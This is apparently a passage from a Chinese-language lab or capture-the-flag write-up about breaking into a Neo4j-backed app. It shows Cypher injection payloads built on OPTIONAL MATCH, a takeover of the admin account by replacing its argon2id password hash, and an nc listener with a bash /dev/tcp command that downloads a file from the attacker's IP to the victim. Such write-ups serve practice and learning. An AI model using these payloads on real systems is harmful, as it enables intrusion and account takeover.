 而cypher这种，要是有一种类似于mysql语句这种 ;  
，分号拼接执行多段语句不就可以了  
  
好像没有，gpt也问题不出东西了  
  
wp   
给了一个语法  
   
  
https://neo4j.com/docs/cypher-manual/current/clauses/optional-match/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YqzMOdDibqZsNW6XC00tekRWUSicMQG053GYGKztM2KvE6iaYS6nnphUN0yecViccyLErHeqtPZqOKb5aSqwhxctTQ/640?wx_fmt=png&from=appmsg "")  
  
  
MATCH的结构与靶机中所用相似，所以可以直接**尝试构造OPTIONAL MATCH**  
  
而且呢源码部分也给了些信息  
```
use crate::db::models::product::Product;
use crate::db::models::user::User;
...
```  
```
#500 都失败了
f6e2f997-5490-408d-a1e6-2e8744c806d7"}) OPTIONAL MATCH(xixi:Product) return xixi.id //f6e2f997-5490-408d-a1e6-2e8744c806d7"}) OPTIONAL MATCH(xixi:Product) return result {.*,xixi.id} //

f6e2f997-5490-408d-a1e6-2e8744c806d7"}) OPTIONAL MATCH(xixi:User) return xixi.username //f6e2f997-5490-408d-a1e6-2e8744c806d7"}) OPTIONAL MATCH(xixi:User) return result {xixi.username} //

#wp 给的
f6e2f997-5490-408d-a1e6-2e8744c806d7"}) optional match (xixi:User) return result { .*, description: xixi.username }//
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YqzMOdDibqZsNW6XC00tekRWUSicMQG053NVmdQw652X4X8fN0HcibIicoJGWicF5DUpJMiaSia81mvibt6jQPUjkuxiaRw/640?wx_fmt=png&from=appmsg "")  
  
  
嘶，为什么这样构造呢。看样子是去符合第一个MATCH的键值对？  
  
  
2.密码替换，原密码格式如下：  
```
$argon2id$v=19$m=19456,t=2,p=1$T+K9waOashQqEOcDljfe5Q$X5Yul0HakDZrbkEDxnfn2KYJv/BdaFsXn7xNwS1ab8E
```  
  
构造同参数的密码替换即可，没办法，我得到的原密码m=4096，所以导致登录是500，因为参数就不对  
  
admin登录，第一次可能是404，再登录即可，否则就改密码重新操作  
  
  
3.文件传输  
```
#kali发文件
nc -lvnp 3636 < ftp.py

#victim 接收文件
bash -c 'cat < /dev/tcp/10.10.xxxx/3636 > /tmp/ftp.py' &
```  
  